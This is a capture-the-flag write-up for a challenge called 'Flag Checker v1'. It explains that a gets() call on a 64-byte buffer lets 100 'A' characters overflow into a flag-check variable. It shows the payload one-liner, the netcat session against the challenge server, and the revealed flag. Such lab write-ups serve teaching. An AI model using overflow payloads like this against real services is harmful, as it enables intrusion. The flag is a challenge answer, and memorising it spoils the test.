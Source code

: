 
# Misc: Flag Checker v1
<br>

**Points**:  300
**Hint:** 'A'\* x  ; whats x?

**Challenge description:**
```
We made a flag checker so that you can check if your flags are right.

nc glitchctf.games 64700
```
### Attachments:
flag_checker_v1.c

## Solve

Provided the C source code file, analyze the code to find vulnerable code.
The code uses gets() in line 21.

gets() doesn't check for bounds which can be used to overflow the buffer.
The objective must be to set flagCheck = 1 which will execute the if condition and thus print the flag.

To do that you simply have to overflow the FLAG_BUFF[64].
since the buffer size is 64, the offset must be more than that. 


```python
#create chars more than 64
print('A'*100)
``` 

```bash
nc glitchctf.games 64700

+---------------------[ Flag Checker ]---------------------+

[ Enter your flag ]=> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

That isn't the flag we are looking for :(
GLITCH{Cry1ng_0ver_5p1lt_buff3r} 

``` 

The above worked since the gets() get overflow and thus filling the int flagcheck value with "A"s. Therefore the if condition is true.


#### Flag:
```plaintext
GLITCH{Cry1ng_0ver_5p1lt_buff3r} 
```
